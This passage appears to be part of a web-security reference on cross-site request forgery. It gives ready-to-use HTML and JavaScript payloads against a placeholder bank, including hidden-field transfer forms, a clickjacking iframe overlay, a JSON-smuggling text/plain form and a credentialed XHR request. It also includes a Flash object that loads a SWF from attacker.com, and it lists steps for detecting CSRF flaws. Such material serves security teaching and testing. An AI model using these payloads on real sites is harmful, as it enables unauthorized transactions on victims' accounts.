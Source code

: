       - Social engineering submission:
        ```html
        <form action="https://bank.com/transfer" method="POST">
          <h3>Click to claim your prize!</h3>
          <input type="hidden" name="recipient" value="attacker">
          <input type="hidden" name="amount" value="1000">
          <input type="submit" value="Claim Now" style="background-color:green; color:white; padding:10px;">
        </form>
        ```
      - Clickjacking with positioned form:
        ```html
        <style>
          iframe {opacity: 0.1; position: absolute; z-index: 2;}
          .decoy {position: absolute; z-index: 1; top: 300px; left: 100px;}
        </style>
        <iframe src="https://bank.com/transfer" width="800" height="500"></iframe>
        <button class="decoy">Click to continue</button>
        ```
    - Identification techniques:
      - Analyze POST forms for CSRF token fields
      - Test submission without token or with invalid token
      - Create cross-domain form with matching field names
      - Verify if application checks Origin/Referer headers

  - **JSON/XML-based CSRF**
    - Characteristics:
      - Targets API endpoints using structured data formats
      - Leverages content-type variations and browser behavior
      - Harder to exploit due to preflight CORS checks for custom content types
      - Increasingly common in modern, API-driven applications
    - Attack vectors:
      - Form submission with content-type override:
        ```html
        <form action="https://api.bank.com/transfer" method="POST" enctype="text/plain">
          <input name='{"amount":1000,"recipient":"attacker","padding":"' value='"}'>
          <input type="submit" value="Submit">
        </form>
        ```
      - Exploiting lenient content-type handling:
        ```html
        <form action="https://api.bank.com/transfer" method="POST">
          <input type="hidden" name="amount" value="1000">
          <input type="hidden" name="recipient" value="attacker">
          <input type="submit" value="Submit">
        </form>
        <script>
          // Intercept and modify submission
          document.forms[0].onsubmit = function(e) {
            e.preventDefault();
            var xhr = new XMLHttpRequest();
            xhr.open("POST", "https://api.bank.com/transfer", true);
            xhr.withCredentials = true;
            xhr.setRequestHeader("Content-Type", "application/json");
            xhr.send(JSON.stringify({amount:1000,recipient:"attacker"}));
          };
        </script>
        ```
      - Flash-based cross-domain requests (legacy systems):
        ```html
        <object type="application/x-shockwave-flash" data="https://attacker.com/csrf.swf" width="1" height="1">
          <param name="allowScriptAccess" value="always">
          <param name="movie" value="https://attacker.com/csrf.swf">
        </object>
